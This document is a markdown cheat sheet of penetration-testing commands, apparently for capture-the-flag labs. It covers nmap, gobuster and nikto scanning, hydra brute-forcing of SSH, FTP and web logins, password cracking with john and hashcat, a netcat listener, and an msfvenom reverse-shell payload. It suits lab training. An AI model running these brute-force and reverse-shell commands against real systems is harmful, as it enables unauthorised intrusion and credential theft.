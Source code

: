 # CLI Toolset

## gobuster
Site discovery
```console
gobuster -u http://fakebank.com -w wordlist.txt dir
```
```console
gobuster -u http://$MACHINE_IP -w wordlist.txt -x php,sh,txt,cgi,html,js,css,py
```

## nmap
```console
nmap -sC -sV -oN nmap/initial $IP
```
Silence discovery:
```console
nmap -sS $MACHINE_IP
```
Ping Scan: Allows scanning the live hosts in the network without going deeper and checking for ports services etc. Usage:
```console
nmap -sn $MACHINE_IP
```
Operating System Scan: Allows scanning of the type of OS running on a live host. Usage: 
```console
nmap -O $MACHINE_IP
```
Detecting Services: Get a list of running services on a live host. Usage: 
```console
nmap -sV $MACHINE_IP
```
Check for vulns also:
```console
nmap -sV -sC --script vuln $MACHINE_IP
nmap -sV -vv --script vuln  $MACHINE_IP
```

Loud, but effectie:
```console
nmap -A $MACHINE_IP
```

In depth search:
```console
nmap -A -p- $MACHINE_IP
```

## nikto
Webserver vuln. disc.
```console
nikto -host $MACHINE_IP:80
```

## hydra
Bruteforce

```console
hydra -l '' -P 3digits.txt -f -v $MACHINE_IP http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
```

```console
hydra -l alexander -P /usr/share/wordlists/rockyou.txt ssh://$MACHINE_IP -V
```

```console
hydra -l R1ckRul3s -P /usr/share/wordlists/rockyou.txt -f -v 10.10.66.58 http-post-form "/login.php:username=^USER^&password=^PASS^&sub=Login:Invalid username or password." -s 80
```

```console
hydra -l username -P /usr/share/wordlists/rockyou.txt $MACHINE_IP ftp
```

## crunch
Password list generator

## cewl

```console
cewl -d 2 -m 5 -w passwords.txt http://$MACHINE_IP --with-numbers
```

## nc

```console
nc -lnvp 4444
```

## msfvenom

A command-line payload generation tool

```console
msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR.IP.ADDRESS.HERE LPORT=4444 -f exe -o reverse.exe
```

## john

Brute force hash pwd

```console
john --wordlist=greedykeys.txt hash.txt
```

## searchsploit

Search ExploitDB

```console
searchsploit fuel cms
```

## hashcat

MD5 hash cracker

```console
hashcat -m 0 pash /usr/share/wordlists/rockyou.txt
```

## enum4linux
eg. SMB user name enumeration
-a all
```console
enum4linux -e $IP
```

## stegcracker
Steganograpy cracer

 ```console
stegcracker <file> [<wordlist>]
```

## binwalk
Check for hidden data

 ```console
binwalk <file>
```

Extract hidden files:
 ```console
binwalk -e <file>
```

## steghide
Steganograpy data

 ```console
steghide --info 'filename'
```

 ```console
steghide --extract -sf 'filename'
```
